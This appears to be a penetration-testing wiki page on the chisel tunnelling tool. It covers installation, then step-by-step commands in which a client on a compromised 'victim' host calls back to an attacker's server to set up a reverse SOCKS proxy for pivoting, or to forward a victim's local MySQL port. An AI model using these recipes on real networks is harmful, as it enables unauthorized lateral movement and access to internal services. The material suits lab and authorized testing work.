


## Overview
---
> [!info]
> The **chisel** Github repository can be found [here](https://github.com/jpillora/chisel).

**Chisel** is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH.  It is a power modular tool that allows tunneling and port forwarding from a single executable (i.e., both client and server).

## Installation
---
### Option 1: Download from Github

```shell
# Download and clean-up the Linux version of Chisel v1.9.1
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
mv chisel_1.9.1_linux_amd64 chisel

# Download and clean-up the Windows version of Chisel v1.9.1
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
gunzip chisel_1.9.1_windows_amd64.gz
mv chisel_1.9.1_windows_amd64 chisel.exe
```

### Option 2: Download from RGBwiki

> [!info]
> Download **chisel_1.9.1** (64-bit) binaries for Linux and Windows [here](../../../_downloads/chisel_1.9.1.zip).

### Option 3: Install using apt

As of version 1.9.1, `chisel` can now be downloaded on Kali using `apt`.

```shell
sudo apt install chisel -y
```

## Usage
---
### SOCKS Proxy

On our attacker, modify the last line of `/etc/proxychains4.conf` to utilize SOCKS5.
```shell
sudo nano /etc/proxychains4.conf
```

![[Pasted image 20230306165438.png]]

With the pre-requisites taken care of, we just need to move a `chisel` binary to the victim to  establish a tunnel.

```shell
# Attacker: Setup chisel listener
./chisel server -p <srv_port> --reverse

# Victim: Establish chisel callback
./chisel.exe client <attacker_ip>:<srv_port> R:socks

# Attacker: Proxy commands through victim
proxychains -q <command>
```

This will start a `chisel` server listener on our attacker using an arbitrary port, but once the connection is made by the uploaded `chisel` client on the compromised host, we can tunnel commands through the SOCKS5 proxy using `proxychains`.

**Visual Diagram:**


*(Note: in the above example, the attacker had a `chisel` server listening on port 7575, and established a SOCKS5 proxy once the `chisel` client on Client 1 called back.  This allows the attacker to now reach Clients 2-4 through `proxychains`.)*

### Port Forwarding

Port forwarding can be done to allow an attacker to access services on a target that are listening locally (e.g., MySQL database on 127.0.0.1:3306).

```shell
# Attacker: Setup chisel server
./chisel server -p <srv_port> --reverse

# Victim: Forward local port to attacker port
./chisel.exe client <attacker_ip>:<srv_port> R:<attacker_port>:127.0.0.1:<service_port>

# Attacker: Access victim port locally
<command> 127.0.0.1:<attacker_port>
```

**Visual Diagram:**


*(Note: in the above example, the attacker had a `chisel` server listening on port 7575, and established a port forward to the local MySQL database once the `chisel` client on Client 1 called back.  This allows the attacker to now reach Client 1's MySQL server on his own system using `mysql -h 127.0.0.1 -u <username> -p`)*
